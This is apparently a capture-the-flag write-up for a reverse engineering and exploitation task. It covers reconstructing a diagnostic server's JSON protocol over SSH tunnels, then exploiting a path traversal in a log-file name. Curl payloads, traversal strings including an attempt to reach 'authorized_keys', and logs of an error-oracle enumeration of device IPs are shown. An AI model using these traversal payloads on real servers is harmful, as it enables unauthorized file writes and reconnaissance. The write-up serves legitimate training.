


# Task 7 - There is Another - (Reverse Engineering, Exploitation)
```
Intelligence sources indicate with high probably there is a second device somewhere. We don't know where it is physically, but maybe you can find it's IP address somehow. We expect it is one of the up to 2^20 devices connected to the Blue Horizon Mobile network. Blue Horizon Mobile has explained that their internal network is segmented so all user devices are in the 100.64.0.0/12 IP range.

Figure out how the device communicates with the server you found in the previous task. It must only do so on-demand otherwise we would have probably discovered it sooner. This will probably require some in depth reverse engineering and some guess work. Use what you learn, plus intuition and vulnerability research and exploitation skills to extract information from the server somehow. Your goal is to determine the IP addresses for any devices that connected to the same server. There should be two addresses, one for the downed device, and another for the second device. Your jumpbox account has been updated to allow you to open TCP tunnels to the server (reconnect to enable the new settings). Remember the jumpbox internal IP is 100.127.0.2


Downloads:

SSH host key to authenticate the jumpbox (optional, same as before) (jumpbox-ssh_host_ecdsa_key.pub)
SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (same as before) (jumpbox.key)
Enter device IP addresses, one per line (don't guess)
```

# Tooling for the VM
Everything in the device firmware is statically linked and `libc` and `ld.so` don't exist on the device, so getting tooling onto the device was a bit of a pain, but also incredibly useful.

## Strace
### Building for aarch64
It turns out that cross compiling strace for aarch64 isn't difficult, but the `strace` project documentation is somewhat lacking.


Install some deps
```bash
sudo apt install gcc-aarch64-linux-gnu
sudo apt install crossbuild-essential-arm64
sudo apt install crossbuild-essential-armel
sudo apt install gcc-arm-linux-gnueabi gcc-arm-none-eabi

# and vsftpd for the file transfer
sudo apt install vsftpd
```

```bash
git clone git@github.com:strace/strace.git
cd strace
./bootstrap
mkdir build
cd build
LDFLAGS='-static -pthread' ARCH='aarch64' CC='aarch64-linux-gnu-gcc' ../configure --enable-mpers=no --host=aarch64-linux
make -j4
cd src
tar -acf strace.tar strace
gzip strace.tar
sudo cp strace.tar.gz ~
```

## gdbserver
If you aren't familliar with `gdbserver`, it is an extremely useful tool for debugging. It lets you debug processes on a remote device and allows you to connect over the network to that device with `gdb` or `gdb-multiarch`. Very convenient if you are creating a `gdbinit` or can't get normal `gdb` to work for the device you are trying to debug things on (like if the device only has statically compiled binaries on it or you want access to `gdb`'s `python` api on a system that you are having trouble building python on).

### Building gdbserver
`gdb` has a few dependencies that I wasn't aware of before, so here are all of the commands that I used to clone and build all of the code I needed to get a statically linked copy of `gdbserver`. Please note that the build process fails sometime after `gdbserver` completes building.
```bash
# clone and build static libraries for gmp

hg clone https://gmplib.org/repo/gmp
cd gmp
./.bootstrap

mkdir build
cd build
ARCH='aarch64' CC='aarch64-linux-gnu-gcc' LD='aarch64-linux-gnu-ld' CXX='aarch64-linux-gnu-g++' LDFLAGS='-static' ../configure --host=aarch64-gnu-linux
make

cd ../..

# clone and build static libraries for mpfr
git clone https://gitlab.inria.fr/mpfr/mpfr.git
cd mpfr
./autogen.sh
mkdir build
cd  build
ARCH='aarch64' CC='aarch64-linux-gnu-gcc' LD='aarch64-linux-gnu-ld' CXX='aarch64-linux-gnu-g++' LDFLAGS='-static' ../configure --host=aarch64-gnu-linux  --with-gmp-build="$HOME/cloned/gmp/build"
make

cd ../..


# clone and build static gdbserver using gmp and mpfr
git clone https://sourceware.org/git/binutils-gdb.git
cd binutils-gdb
mkdir build
cd build
ARCH='aarch64' CC='aarch64-linux-gnu-gcc' LD='aarch64-linux-gnu-ld' CXX='aarch64-linux-gnu-g++' AR='aarch64-linux-gnu-ar' LDFLAGS='-static' ../configure --host=aarch64-gnu-linux --target=aarch64-gnu-linux --with-gmp-lib="$HOME/cloned/gmp/build/.libs/" --with-gmp-include="$HOME/cloned/gmp/build/" --with-mpfr-lib="$HOME/cloned/mpfr/build/src/.libs" --with-mpfr-include="$HOME/cloned/mpfr/src"
make
```

### getting strace onto the target system
I just hosted an `ftp` server on my laptop and ran this command on the vm:
```bash
ftpget -u clif -p '<redacted>' 192.168.1.23 strace.tar.gz
```

# connect to the new server
ip address answer from the previous problem: 100.90.12.106

```bash
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.90.12.106:27017 user@external-support.bluehorizonmobile.com
```

all user device ips are in the 100.64.0.0/12 range, meaning the second octet has to be between 64 and 79 for the ip to be a user device

# Solution

## Enumeration and identification of communication channels

### Port Scanning
I initially started trying to portscan the ip address answer from the previous problem (100.90.12.106) with [this script](scanallports.sh). While technically the script works, it was extremely slow and it never actually finished scanning. I was however able to find the openssh server on port 22 with the script.

This somewhat fit together with one of the command handlers I found while reverse engineering `agent`: 

The environment variables mentioning ssh

### Network Diagram
A good portion of this task was just attempting to map out roughly what the network looked like. This is the final Diagram that I ended up with, including some information from task 8 and task 9. Note that in this diagram the blue connctions are essentially just me re-creating the connections to the C2 infrastructure that would normally be created by the device.



SSH is being used to wrap an http server
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

```
ssh-keyscan -p 7999 localhost > host_pub_keys
socat tcp-listen:50505,reuseaddr exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

```
curl -X POST -d '{"StatusData":{"BalloonID":[255,97,231,205,75,91,73,13,135,118,173,49,248,145,248,145],"SystemInfo":null},"CommandResponse":{"Id":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"Starttime":"","Endtime":"","Cmd":"ip a","Stdout":"","Stderr":"","Err":""}}' http://localhost:50505/diagnostics
```

## diagclient Environment variables
```
SSH_USERNAME=nonroot_user
BALLOON_ID=<some-uuid>
PRIVATE_KEY_PATH=<path-to-id_ed25519>

export EXPECTED_HOST_KEY=$(cat expected_host_keys )

# guessing now

SSH_SERVER_ADDRESS
SSH_SERVER_PORT
```

```
BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 EXPECTED_HOST_KEY=/etc/dropbear/dropbear_ecdsa_host_key SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=22 /agent/diagclient -v 1


BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 EXPECTED_HOST_KEY=/openssh_ed25519_host_key SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=22 /agent/diagclient -v 1
```

agent is listening on udp/9000


```python
import requests
s = requests.session()
r = s.post(url, data='{}', stream=True)
```

```
╰─$ socat tcp-listen:50505,reuseaddr exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'                                    1 ↵
Pseudo-terminal will not be allocated because stdin is not a terminal.
2023/11/01 00:21:26 Diagnostic Server starting...
2023/11/01 00:21:31 ready
{diagserver} 2023/11/01 00:21:31.102634 Starting connection timer...
{diagserver} 2023/11/01 00:21:31.102783 received StatusUpdate without CommandResponse
{diagserver} 2023/11/01 00:21:31.102818 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/01 00:21:31.102840 HTTP/1.1 200 OK
{diagserver} 2023/11/01 00:21:31.102846 Content-Length: 75
{diagserver} 2023/11/01 00:21:31.102849 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/01 00:23:53.913255 error decoding StatusUpdate: json: cannot unmarshal array into Go value of type main.StatusUpdate
{diagserver} 2023/11/01 00:23:53.913280 HTTP/1.1 400 Bad Request
{diagserver} 2023/11/01 00:23:53.913284 Content-Length: 0
{diagserver} 2023/11/01 00:23:53.913288 server to client body:

```

Curl should look closer to :
```
curl -X POST -d '{"status_data":{"balloon_id":"00000000-0000-0000-0000-000000000000","system_info":null}}' http://localhost:50505/diagnostics
```


```
2023/11/02 21:56:30 socat[2273358] E waitpid(): child 2273359 exited with status 1
Pseudo-terminal will not be allocated because stdin is not a terminal.
2023/11/03 01:59:27 Diagnostic Server starting...
2023/11/03 01:59:32 ready
{diagserver} 2023/11/03 01:59:32.757428 Starting connection timer...
{diagserver} 2023/11/03 01:59:32.757496 parse "/%2e%2e%2fhome%2fnonroot_user%2f%2e%ssh%2fauthorized_keys": invalid URL escape "%ss"
2023/11/02 21:59:26 socat[2273577] E waitpid(): child 2273578 exited with status 1
```

This is a message from a go module, which is pretty strict about percent signs


Then I noticed the message `received StatusUpdate without CommandResponse`
```
2023/11/04 18:14:22 Diagnostic Server starting...
2023/11/04 18:14:27 ready
{diagserver} 2023/11/04 18:14:27.979980 Starting connection timer...
{diagserver} 2023/11/04 18:14:27.980179 received StatusUpdate without CommandResponse
```

So I pulled the `CommandResponse` struct out of ghidra and tried to recreate it in json
```
struct main.CommandResponse {
    byte Id[16];
    struct string.conflict Starttime;
    struct string.conflict Endtime;
    struct string.conflict Cmd;
    struct string.conflict Stdout;
    struct string.conflict Stderr;
    struct string.conflict Err;
};
```

which eventually led to a post something like this:
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{}}'
```

with the following error messge:
```
2023/11/04 21:22:28 Diagnostic Server starting...
2023/11/04 21:22:33 ready
{diagserver} 2023/11/04 21:22:33.429905 Starting connection timer...
{diagserver} 2023/11/04 21:22:33.430046 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:22:33.430052 Invalid length for command_response.starttime: len() = 0 != 25
{diagserver} 2023/11/04 21:22:33.430059 HTTP/1.1 417 Expectation Failed
{diagserver} 2023/11/04 21:22:33.430064 Content-Length: 0
{diagserver} 2023/11/04 21:22:33.430068 server to client body:
{diagserver} 2023/11/04 21:22:33.585260 EOF
```


I copied some of the time strings straight out of one of the `diagserver` logs and int the fields that it was complaining about.

After adding the following json to my statusupdate json packet, I was able to get a new response
```
   "command_response": {
       "id": "00000000-0000-0000-0000-000000000000",
       "starttime": "2023/11/04 18:36:55.67755",
       "endtime": "2023/11/04 18:37:55.67755",
       "cmd": "ps",
       "stdout": "",
       "stderr": "",
       "err": ""
   },
   "status_data": {
       ...
   }
```

```
curl -X POST "http://localhost:50505/diagnostics" -d @statusdata_mod_pretty.json
```

```
{diagserver} 2023/11/04 18:40:46.318379 Starting connection timer...
{diagserver} 2023/11/04 18:40:46.318612 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 18:40:46.319160 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: no such file or directory
{diagserver} 2023/11/04 18:40:46.319173 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 18:40:46.319178 Content-Length: 0
{diagserver} 2023/11/04 18:40:46.319182 server to client body:
{diagserver} 2023/11/04 18:40:46.348772 EOF
2023/11/04 14:40:46 socat[2340372] E waitpid(): child 2340373 exited with status 1

```

It looks like I got lucky with this specifically because I copied the time out of the logs. It appears that the `starttime` value is used as the name of a logfile, but because the time format I (and diagserver) used contained a forward slash `/`, it tried to access a non-existent directory.  It also looked like the path from the previous bit wasn't sanitized at all, so I decided to play around with it a bit to see what I could accomplish.


## directory discovery
Testing out a little bit more:

A starttime of `aaaaaaaaaaaaaaaaaaaaaaaaa` didn't throw an error at all. Unfortunately I wasn't able to directly `curl -X GET` anything out of the filepath that was leaked in the error message, even when I knew an actual valid filename, `aaaaaaaaaaaaaaaaaaaaaaaaa.json`, so `GET` requests seemed like they werent usable for this.
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{"id": "00000000-0000-0000-0000-000000000000","starttime": "aaaaaaaaaaaaaaaaaaaaaaaaa","endtime": "2023/11/04 18:37:55.67755","cmd":"ps","stdout":"","stderr":"","err":""}}'
```
```
2023/11/04 21:41:17 Diagnostic Server starting...
2023/11/04 21:41:22 ready
{diagserver} 2023/11/04 21:41:22.978601 Starting connection timer...
{diagserver} 2023/11/04 21:41:22.978764 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:41:22.978912 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/04 21:41:22.978928 HTTP/1.1 200 OK
{diagserver} 2023/11/04 21:41:22.978933 Content-Length: 75
{diagserver} 2023/11/04 21:41:22.978937 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/04 21:41:23.158752 EOF
```

It looks like I get a `permission denied` when trying to do a directory traversal to write to `/diagnostics/var/logs/commands/by-ip/64/7F/00/`
```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```

when trying to use the directory traversal to reach a directory for an IP that shouldn't have ever connected, I get `no such file or directory`
```
{diagserver} 2023/11/04 19:14:50.762860 Starting connection timer...
{diagserver} 2023/11/04 19:14:50.763007 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:50.763052 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: no such file or directory
{diagserver} 2023/11/04 19:14:50.763062 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:50.763067 Content-Length: 0
{diagserver} 2023/11/04 19:14:50.763071 server to client body:
{diagserver} 2023/11/04 19:14:51.000522 EOF
```


so long as differentiating between these two error cases and the one success case is possible (by reading the output of `diagserver` it was), that is enough information to enumerate the directory structure of the server. Because I also know the network and cidr for the hosts I am looking for, that also makes the number of IP addresses that I need to iterate much more manageable.

I decided to go with a depth first search using `pwntools` `process` class to start and monitor a `socat` process:
```
socat tcp-listen:50505,reuseaddr,fork exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

set the jump server up again
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

and by using `requests.session` to share the session, I also avoided having to fully restart the `nonroot_user` ssh session too often (which would have taken avery long time to fully reconnect every time).
```
╰─$ ./enumerate_ips.py
[+] Starting local process '/usr/bin/socat': pid 2399544
[+] found a new octet, trying to guess .(100)
[+] found a new octet, trying to guess 100.(67)
[+] found a new octet, trying to guess 100.67.(25)
[+] wrote to path! ../../../../64/43/19/E7/a
[+] found a full IP 100.67.25.231
[*] Done trying to guess 100.67.25
[*] Done trying to guess 100.67
[+] found a new octet, trying to guess 100.(69)
[+] found a new octet, trying to guess 100.69.(183)
[+] wrote to path! ../../../../64/45/B7/38/a
[+] found a full IP 100.69.183.56
[*] Done trying to guess 100.69.183
[*] Done trying to guess 100.69
[*] Done trying to guess 100
[*] Done trying to guess
[+] found ip 100.67.25.231
[+] found ip 100.69.183.56
[*] Stopped process '/usr/bin/socat' (pid 2399544)
```

